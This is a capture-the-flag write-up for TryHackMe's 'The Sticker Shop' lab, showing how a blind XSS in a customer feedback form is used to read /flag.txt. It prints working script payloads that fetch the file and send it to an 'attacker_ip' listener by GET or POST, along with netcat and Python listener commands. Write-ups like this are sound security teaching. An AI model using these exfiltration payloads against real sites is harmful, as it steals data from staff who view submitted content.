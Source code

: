 ```yaml
---
layout: post
title: TryHackMe - The Sticker Shop Write-Up
date: 2025-02-11
classes: wide
description: Abusing lack of sanitization to retrieve files from the remote server.
---
```


# The Sticker Shop

![](/assets/img/post/thm_the_sticker_shop/1.png)

## Reconnaissance

Usually I like to run a basic nmap scan to identify potential services we can abuse, but the challenge asks us to retrieve the `/flag.txt` inside the web server. So I did run nmap just as a habit, but there is absolutely no need. Instead, we'll stick to the web server itself.

![](/assets/img/post/thm_the_sticker_shop/2.png)

The page itself is a very simple one, all we can see are some cat sticker images, and a message telling us they only sell at their physical store, so we don't have a buy function, nor we can click the images to see a checkout page.

![](/assets/img/post/thm_the_sticker_shop/3.png)

We also have a customer feedback page, where we can send a personal feedback about the store. Finally, accessing the flag directly obviously won't work, as we get a 401 response.

## Reading Files Remotely

Running fuzzing tools like `dirbuster`, `ffuf`, `wfuzz` is also a waste of time, we don't have absolutely no other directories or pages beyond those we've seen. Interestingly enough, submitting a feedback gives us an important message: 

`Thanks for your feedback! It will be evaluated shortly by our staff`

This can either mean nothing, or tell us the feedback is being passed to an `eval()` function, and if that's the case, then we can try a few different things. The first one is XSS payloads, while the other options are related to the server using Python.

![](/assets/img/post/thm_the_sticker_shop/4.png)

Since the request isn't reflected, maybe we can send a request somewhere? Let's pop up a python server with `sudo python -m http.server 80` and send a basic payload to the site:

```html
<script>new Image().src="http://attacker_ip/cookie.php</script>
```

There's no need to add a `document.cookie` as the website doesn't use sessions. Now we wait...

![](/assets/img/post/thm_the_sticker_shop/5.png)

The request is being sent multiple times, probably to simulate a real user. Now we'll be sending another payload, this time our goal is to get the contents of `flag.txt` file and sending it to our server.

```html
<script>
fetch('/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://attacker_ip/log?flag=' + encodeURIComponent(data));
  });
</script>
```

And after submitting the feedback, we have our flag:

![](/assets/img/post/thm_the_sticker_shop/6.png)

Notice we have some encoded characters, those are brackets used to mark the flag. Alternatively, the following payload can be used to retrieve the flag as well:

```html
<script>
fetch('/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://attacker_ip/', {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: 'flag=' + data
    });
  });
</script>

```

What both payloads are doing is reading the contents of the flag and sending it through a request. Now if we use `sudo nc -lvp 80` to listen to the request:

![7](/assets/img/post/thm_the_sticker_shop/7.png)

So that's pretty much it, thanks for reading!
